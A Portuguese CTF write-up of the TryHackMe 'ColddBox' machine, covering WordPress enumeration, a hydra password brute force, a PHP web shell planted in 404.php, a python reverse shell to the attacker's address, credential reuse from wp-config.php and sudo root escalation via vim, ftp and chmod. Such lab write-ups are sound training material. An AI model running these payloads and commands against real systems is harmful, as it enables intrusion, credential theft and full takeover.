 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryhackMe - ColddBox - Fácil
date: 2024-01-08 02:26:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, sudo, wordpress, facil]     # TAG names should always be lowercase
show_image_post: true
---
```


![logo](/assets/img/ColddBox3.png){: w="100" h="100" .left}

___

# **CTF - ColddBox**
---
---
## **Enumeração**

Ao acessar o site chequei com a extensão wappalyser

![Alt text](/assets/img/ColddBox1.png)

Wordpress encontrando rodei o 

### nmap

```text
──(kali💀kali)-[~]
└─$ sudo nmap 10.10.161.138 -Pn -sV        
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-07 20:52 EST
Nmap scan report for 10.10.161.138
Host is up (0.22s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.00 seconds
```
{: .nolineno }
 
### gobuster


```text
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/hidden               (Status: 200) [Size: 340]
/server-status        (Status: 403) [Size: 278]
/wp-content           (Status: 200) [Size: 0]
/wp-includes          (Status: 200) [Size: 26809]
Progress: 20469 / 20470 (100.00%)
/wp-admin             (Status: 200) [Size: 2567]
===============================================================
Finished
===============================================================
```
{: .nolineno }

de interessante apenas /hidden e a pagina de login do wordpress /wp-admin

conteúdo da /hidden

```text
U-R-G-E-N-T

C0ldd, you changed Hugo's password, when you can send it to
him so he can continue uploading his articles. Philip
```
{: .nolineno }

### wpscan
 
 Me retornou alguns usuários validos
 
```text
 [+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
{: .nolineno }
## **Acesso**

### hydra

Adicionei os 3 em users.txt

* c0ldd
* philip
* hugo


Tentei usar o patator por achar mais rápido, mas nao ficou estável,  por má configuração ou sei la...
Optei então pelo hydra

```shell
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 10.10.161.138 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 60 -F 
```
{: .nolineno }

Rapidamente me retornou login e senha

```text
[80][http-post-form] host: 10.10.161.138   login: c0ldd   password: 9876543210
```
{: .nolineno }

### Reverse Shell

Pesquisei por métodos de reverse shell encontrei esses
[aqui](https://gab3.medium.com/t%C3%A9cnicas-para-conseguir-reverse-shell-em-ambientes-wordpress-ede0b289a644)

Tentei o método do plugin as vezes retornava um erro, não sei se por conta do lag com servidor.
Optei pelo método de injetar a reverse shell  na 404.php

**Apenas adicionei o código na 404.php**

```php
echo shell_exec($_GET["cmd"]);
```
{: .nolineno }
![Alt text](/assets/img/ColddBox2.png)

Ao executar a pagina 404.php no navegador temos uma webshell que podemos executar comandos.

```text
Exemplo
/404.php?cmd=ls
```
{: .nolineno }

Tentei usar socat com wget e foi sem exito então , optei pelo python

```text
http://10.10.161.138/wp-content/themes/twentythirteen/404.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.6.125.125%22,4443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```
{: .nolineno }

**Upgrade para shell interativa**

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")';
ctrl+z
stty raw -echo;fg
export TERM=xterm-256color
```
{: .nolineno }

## **Escalação de privilégio**

Por pesquisa descobri que  wp-config.php contem login:senha do mysql

```text
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');
```
{: .nolineno }
Nada de útil encontrando no DB

/etc/passwd sem permissões de escrita

Tentei logar com as credencias do db na maquina e OK

```bash
su - c0ldd 
c0ldd@ColddBox-Easy:~$ 

Primeira flag obtida
c0ldd@ColddBox-Easy:~$ cat user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```
{: .nolineno }
Com sudo -l, é possível ver três formas de obter root, optei pelo vim.


```shell
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
c0ldd@ColddBox-Easy:~$ sudo -u root vim -c ':!/bin/bash'
root@ColddBox-Easy:/# 
```
{: .nolineno }
com cat em /root.txt obtivemos a ultima flag

wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=

**Obter root com ftp**

sudo -u root ftp
ftp> !/bin/bash

**Obter root com chmod**

sudo -u root chmod 4775 /bin/bash

O 4 no início representa a permissão SUID (Set User ID). Quando definido em um arquivo executável, permite que um usuário que execute o arquivo temporariamente assuma as permissões do proprietário do arquivo. No caso do /bin/bash, isso permitiria que o usuário que o execute temporariamente tenha privilégios de root durante a execução.

bash -p

O argumento p preserva o bit SUID do  arquivo